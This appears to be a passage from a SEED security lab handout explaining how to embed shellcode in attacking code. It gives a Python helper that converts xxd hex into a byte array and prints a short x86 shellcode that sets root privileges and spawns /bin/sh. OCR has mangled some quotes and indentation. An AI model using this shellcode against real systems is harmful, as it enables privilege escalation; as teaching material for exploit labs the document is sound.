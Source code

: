 ### A Using the shellcode in attacking code

In actual attacks, we need to include the shellcode in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but converting the machine code printed above to the array
assignment in Python and C programs is quite tedious if done manually, especially if we need to perform this
process many times in the lab. We wrote the following Python code to help this process. Just copy whatever
you get from the xxd command (only the shellcode part) and paste it to the following code, between the
lines marked by """. The code can be downloaded from the lab’s website.
Listing 4: convert.py

```convert.py
# !/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and

# copy and paste the machine code part to the following

ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""
sh = ori_sh.replace("\n", "")
length = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = ’shellcode= (\n’ + ’ "’
for i in range(length):
s += "\\x" + sh[2*i] + sh[2*i+1]
if i > 0 and i % 16 == 15:
s += ’"\n’ + ’ "’
s += ’"\n’ + ").encode(’latin-1’)"
print(s)
```

The convert.py program will print out the following Python code that you can include in your attack
code. It stores the shellcode in a Python array.

```bash
$ ./convert.py
Length of the shellcode: 35
shellcode= (
"\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
"\x0b\xcd\x80"
).encode(’latin-1’)
```


## 3.2 SEED Lab (30 pts)
[Return-to-libc Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Return_to_Libc/)
